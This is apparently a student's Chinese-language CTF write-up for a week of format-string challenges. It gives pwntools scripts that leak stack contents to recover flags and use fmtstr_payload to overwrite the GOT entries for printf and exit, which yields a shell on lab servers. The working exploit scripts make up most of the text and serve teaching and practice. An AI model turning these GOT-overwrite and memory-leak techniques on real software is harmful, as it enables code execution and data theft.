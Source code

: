 # 第三周 格式化字符串
本周的题目没有对长度限制，所以可以直接用pwnlib.fmtstr_payload梭，不需要手动精心构造（虽然原理并不复杂，但这个显然更快不是吗）

## fmt
先来一种比较优雅的做法，用偏移直接把字符串打印出来，不需要痛苦地处理hex：  
~~字符串在栈上？那不给他print出来~~  
~~不会有人还在手转hex吧~~
```python
from pwn import *

p = remote("10.20.55.12", 28074)
p.sendline("%6$p")
p.recvuntil('> ')
leak = int(p.recvline(), 16)
# 440的偏移是哪来的？我并不知道目标环境的确切偏移，所以写个循环把栈dump一遍就好了
p.sendline(b"%19$s---" + p64(leak - 440))
p.interactive()
```

然后是常规快速做法，泄露栈上变量。注意题目环境是64位。  

```python
from pwn import *

p=remote("10.20.55.12", 28069)
# 多打几个lx就看到666c了，然后泄露指定位置就可以
p.send(b"fuck-%10$llx-%11$llx-%12$llx-%13$llx-%14$llx-%15$llx\n")
p.recvuntil(b"fuck-")

# 开始"优雅"地转换flag
s = p.recvuntil(b">").replace(b">", b"").decode().strip()
d = s.split("-")
s = ""
for i in d:
    s += i.rjust(16, "0")

s = bytes.fromhex(s)
s = s.decode()
for i in range(0, len(s), 8):
    print(s[i:i + 8][::-1], end="")
```

## wrire
本来改secret就可以，但是改成了777居然会弹secret is 777，看到没写死got就直接改printf的got了。
```python
from pwn import *

p = remote("10.20.55.12", 28021)
e = context.binary = ELF('chall')
# 通过 AAAA.%x.%x.%x.%x.%x.%x.%x.%x.%x 得到offset，这里不需要补位是对齐的
payload = fmtstr_payload(11, {e.got['printf']: e.symbols['win']}, write_size='byte')
p.sendline(payload)
p.sendline(b'cat flag.txt')
p.interactive()
```

## got
同第二题，只不过got打的是exit
```python
from pwn import *

p = remote("10.20.55.12", 28068)
e = context.binary = ELF('chall')
payload = fmtstr_payload(7, {e.got['exit']: e.symbols['get_shell']}, write_size='byte')
# 没关缓冲区，所以得补到128位
p.sendline(payload.ljust(128, b'a'))
p.sendline('cat flag.txt')
p.interactive()
```